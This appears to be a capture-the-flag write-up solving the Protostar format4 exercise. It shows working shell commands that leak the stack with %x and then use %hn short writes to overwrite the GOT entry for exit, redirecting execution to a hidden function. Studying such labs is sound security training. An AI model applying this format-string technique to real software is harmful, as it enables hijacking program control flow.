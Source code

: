 The address of the `hello` function is `0x080484b4`. So now we need to write this address into the GOT entry for the `exit` function (at `0x08049724`). 
Our input string is the $4 parameter (DPA):

```
user@protostar:/opt/protostar/bin$ echo AAAA`python -c "print '%x.'*20"` | ./format4
AAAA200.b7fd8420.bffff624.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.a.
user@protostar:/opt/protostar/bin$ echo AAAA%4\$x | ./format4
AAAA41414141
user@protostar:/opt/protostar/bin$ 
```

Now using the short write method we write a couple of test values first (this makes the program segfault) and later correct them with the help of gdb:

```
user@protostar:/opt/protostar/bin$ echo `python -c "print '\x24\x97\x04\x08\x26\x97\x04\x08'"`%4\$hn%5\$hn | ./format4
$�&�
Segmentation fault
user@protostar:/opt/protostar/bin$ gdb -q
(gdb) p 0x84b4 - 8
$1 = 33964
(gdb) p 0x10804 - 0x84b4
$2 = 33616
(gdb) quit
user@protostar:/opt/protostar/bin$ echo `python -c "print '\x24\x97\x04\x08\x26\x97\x04\x08'"`%33964x%4\$hn%33616x%5\$hn | ./format4
...( HUGE amount of space)...
                      b7fd8420
code execution redirected! you win
user@protostar:/opt/protostar/bin$ 
```



